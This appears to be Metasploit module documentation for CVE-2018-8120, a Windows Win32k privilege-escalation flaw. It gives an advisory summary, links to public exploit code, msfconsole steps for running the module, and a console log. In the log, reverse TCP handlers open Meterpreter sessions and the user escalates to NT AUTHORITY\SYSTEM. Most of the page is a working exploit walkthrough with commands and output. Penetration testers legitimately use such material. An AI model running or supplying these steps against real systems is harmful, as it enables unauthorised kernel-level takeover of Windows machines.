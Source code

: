 ## Overview

An elevation of privilege vulnerability exists in Windows when the Win32k component fails to properly handle objects in memory. An attacker who successfully exploited this vulnerability could run arbitrary code in kernel mode. An attacker could then install programs; view, change, or delete data; or create new accounts with full user rights.

To exploit this vulnerability, an attacker would first have to log on to the system. An attacker could then run a specially crafted application that could exploit the vulnerability and take control of an affected system.

The update addresses this vulnerability by correcting how Win32k handles objects in memory.

* https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2018-8120
* http://bigric3.blogspot.com/2018/05/cve-2018-8120-analysis-and-exploit.html
* https://github.com/bigric3/cve-2018-8120
* https://github.com/unamer/CVE-2018-8120

## Verification steps

1. Start `msfconsole`
2. Get a session
3. `use exploit/windows/local/ms18_8120_win32k_privsec`
4. `set SESSION [SESSION]`
5. `set LHOST [LHOST]`
6. `exploit`

## Usage

```
msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.1.102:4444 
[*] Sending stage (206403 bytes) to 192.168.1.103
[*] Meterpreter session 1 opened (192.168.1.102:4444 -> 192.168.1.103:56748) at 2018-10-10 21:55:52 +0530

meterpreter > getuid 
Server username: zero-PC\zero
meterpreter > background 
[*] Backgrounding session 1...
msf exploit(multi/handler) > use exploit/windows/local/ms18_8120_win32k_privsec 
msf exploit(windows/local/ms18_8120_win32k_privsec) > set SESSION 1
SESSION => 1
msf exploit(windows/local/ms18_8120_win32k_privsec) > set LHOST 192.168.1.102
LHOST => 192.168.1.102
msf exploit(windows/local/ms18_8120_win32k_privsec) > run

[*] Started reverse TCP handler on 192.168.1.102:4444 
[+] Exploiting SetImeInfoEx Win32k NULL Pointer Dereference
[+] Exploit finished, wait for privileged payload execution to complete.
[*] Sending stage (206403 bytes) to 192.168.1.103
[*] Meterpreter session 2 opened (192.168.1.102:4444 -> 192.168.1.103:56749) at 2018-10-10 21:56:35 +0530

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
